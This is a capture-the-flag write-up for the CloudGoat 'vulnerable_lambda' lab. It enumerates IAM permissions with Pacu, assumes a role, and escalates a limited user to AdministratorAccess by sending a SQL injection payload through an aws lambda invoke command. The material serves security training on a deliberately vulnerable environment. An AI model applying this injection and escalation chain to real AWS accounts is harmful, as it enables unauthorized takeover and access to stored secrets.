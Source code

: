 # OverView 

In this CloudGoat scenario, we’re going to learn how to exploit a Lambda Function that’s **vulnerable to SQL Injection** in order to grant our limited-privileges user named “Bilbo” admin privileges. Once we’ve escalated privileges, we’ll capture the flag by accessing a secret stored in the AWS Secrets Manager service.

![image](https://github.com/user-attachments/assets/fae54973-ac7e-454c-91ef-eb37d7c66c5a)

# Enumerate permissions

First ill start off by enumerating the iam permissions of the user bilbo with PACU **run iam__enum_permissions**, bilbo has the permission to list roles. You can also use whoami to list permissions with PACU.

![image](https://github.com/user-attachments/assets/2d235191-003d-4753-9e7d-d731dd9d4d07)

We can start by listing out all of the roles in this AWS account. We can do that by running ls in pacu to list all of the modules we have access to:


![image](https://github.com/user-attachments/assets/31c2842a-85c4-4425-bb8c-7e924b1d9d68)

Under the category ENUM we will find the following policy iam__enum_users_roles_policies_groups. Lets try and run it.  **run iam__enum_users_roles_policies_groups**

This will enumerate a complete list of users, roles, policies, and groups that are present in the account…but it doesn’t actually show us what the roles are. Instead, we can type in:

**data iam roles**

![image](https://github.com/user-attachments/assets/c22920fd-5b73-45ee-89de-3323c9c7e532)

# Assume role
We can see that this role Has: **An Action of sts:AssumeRole** – which is a way of temporary assuming roles through the AWS Security Token Service
An Effect of **Allow**
And a Principal of **arn:aws:iam::272281913033:user/cg-bilbo-vulnerable_lambda_cgidbdmusq6y4k** – which is our Bilbo user
What this means is that this role grants assumeRole access to our Bilbo user — this is not an uncommon way of granting permissions to users across AWS accounts where you let the user assume a new role that grants them different permissions.

So, let’s assume this role!

Let’s use Pacu’s search to find a module that will let us do this with the following command.

search role  Under the [Category: LATERAL_MOVE], there’s a module named organizations__assume_role which is exactly what we need.

![image](https://github.com/user-attachments/assets/6dd94040-9281-4bf7-8202-51b8beb47e4c)

Lets assume this role now run organizations__assume_role --accounts 272281913033  --roles cg-lambda-invoker-vulnerable_lambda_cgidbdmusq6y4k

Ok so now that i’ve assumed the role, it’s time to list Lambda functions

# Privilege escalation

**run lambda__enum --regions us-east-1**  then run **data lambda** to view what was collected.
![image](https://github.com/user-attachments/assets/06424704-0d10-4f34-9e61-c4e972623fb1)


Using the Location information URL, we can download the source code of the Lambda function from the browser and view it in VScdoe.

![image](https://github.com/user-attachments/assets/71b97a8c-2555-4d39-aaa9-82e12203c0f0)

We want to invoke this Lambda function to grant our bilbo user admin access, which is something we could do via the AWS console or via the AWS CLI. For this let’s use the AWS shell CLI.

**aws --region us-east-1 lambda invoke --function-name vulnerable_lambda_cgidbdmusq6y4k-policy_applier_lambda1 --payload '{"policy_names": ["AdministratorAccess", "--"], "user_name": "cg-bilbo-vulnerable_lambda_cgidbdmusq6y4k"}' --output text out.txt**

**$LATEST 200 return message**, which indicates a success message.

then i use cat on the out.txt file to see the result.

![image](https://github.com/user-attachments/assets/078e9b1a-204e-48e4-ac11-5bb751ba669c)

Unfortunately, the Lambda function prevents us from using the AdministratorAccess policy because the author of that function added a security control…except for the fact that there’s an injection vulnerability.

AWS Lambda is not immune to injections, especially since this one is using a SQLite database, which means we can use SQL injections.

Now for the SQLi injection.. using the same command as above but this time adding a injection in the query.

**aws --region us-east-1 lambda invoke --function-name vulnerable_lambda_cgidbdmusq6y4k-policy_applier_lambda1 --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": "cg-bilbo-vulnerable_lambda_cgidbdmusq6y4k"}' --output text out.txt**

![image](https://github.com/user-attachments/assets/9250cc9b-91d2-42d3-92c6-e0a5d94bf640)

I've succesfully elevated my privileges through the sqli and have full admin access now 














- 








  










